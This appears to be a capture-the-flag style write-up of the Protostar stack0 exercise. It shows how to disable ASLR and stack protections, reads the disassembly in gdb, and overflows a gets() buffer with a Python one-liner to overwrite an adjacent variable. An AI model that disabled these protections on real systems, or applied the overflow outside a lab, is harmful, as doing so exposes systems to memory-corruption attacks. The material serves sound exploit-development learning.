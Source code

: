 check aslr: `sysctl -a --pattern "randomize"`
disable aslr temporarily: `sudo /sbin/sysctl -w kernel.randomize_va_space=0`

compile with: `-fno-stack-protection` and `-z execstack`

`volatile` is a keyword in C indicating that this variable can change anytime by outside the code and is omitted from compiler optimization.

```C
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
```

The integer `modified` is at [esp+0x5c] and is assigned to 0.
Our buffer is right above it starting at [esp+0x1c]. We can easily verify the size:

```C
(gdb) print 0x5c-0x1c
$1 = 64
```
A pointer to our buffer is 'pushed' onto the stack. After the call to `gets` the value of `modified` is checked against 0. The `gets` function has no boundery checks so we can write more than 64 bytes into the buffer and land in our modified variable. Every value besides 0 would evalute to true so writing 1 more byte into the buffer would set the least significant byte (because of the endianess) and would print the winning message.

```C
(gdb) x/d $esp+0x5c
0xbffff69c:     2
(gdb) x/xw $esp+0x5c
0xbffff69c:     0x00000002
(gdb) x/5xb $esp+0x5b
0xbffff69b:     0x41    0x02    0x00    0x00    0x00

user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 64 + '\x02'" | ./stack0
you have changed the 'modified' variable
```

**Note:**
The print function appends a new line character `0xa` at the end. To avoid this we can use sys.stdout.write()

```bash
user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 3" | hexdump -C
00000000  41 41 41 0a                                       |AAA.|
00000004
user@protostar:/opt/protostar/bin$ python -c "import sys; sys.stdout.write('\x41' * 3)" | hexdump -C
00000000  41 41 41                                          |AAA|
00000003
```

Resources:
https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/
https://docs.python.org/2/library/sys.html#sys.stdout
